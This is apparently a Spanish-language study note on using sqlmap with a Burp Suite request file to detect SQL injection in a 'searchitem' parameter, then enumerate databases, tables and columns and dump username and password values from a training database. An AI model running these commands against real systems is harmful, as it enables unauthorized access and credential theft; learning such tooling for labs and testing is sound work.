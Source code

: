 # SQL-Map 

Tags: #Tool #Web #Enumeracion #BurpSuite #SQLI

Podemos usar los archivos de BurpSuite para ingresarlos en la herramienta SQL-Masp y asi nos diga que tipo de vulnerabilidades tiene, ademas de poder obtener datos a paratir de ellas. Para este ejemplo usaremos **SQLI**

```bash
❯ sqlmap -r example.req -p searchitem --batch

	# r = Archivo con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
```

```bash
❯ sqlmap -r example.req -p searchitem --batch --dbs

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# dbs = Me muestre todas las bases de datos existentes (Dumpear)
```

Una vez obtenidas las DBs podemos apuntar a las **tablas** de una base especifica

```bash
❯ sqlmap -r example.req -p searchitem --batch -D sqltraining --tables

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# D = Le colocamos el nombre de la DB existente 
	# tables = Queremos que nos muestre las tablas de la DB que elegimos 
```

Una vez obtenidas las tablas, ahora vamos a querer que nos enumere las **columnas**

```bash
❯ sqlmap -r example.req -p searchitem --batch -D sqltraining -T users --columns

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# D = Le colocamos el nombre de la DB existente 
	# T = Le colocamos el nombre de la tabla existente 
	# columns = Queremos que nos muestre las columnas de la DB que elegimos 
```

Una vez obtenidas las columnas podemos hacer que nos **muestre (Dumpear)** sus valores

```bash
❯ sqlmap -r example.req -p searchitem --batch -D sqltraining -T users -C username,password --dump

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# D = Le colocamos el nombre de la DB existente 
	# T = Le colocamos el nombre de la tabla existente 
	# C = Le colocamos el nombre de las columnas existente 
	# dump = Que nos muestre los valores que tienen esas columnas
```

****

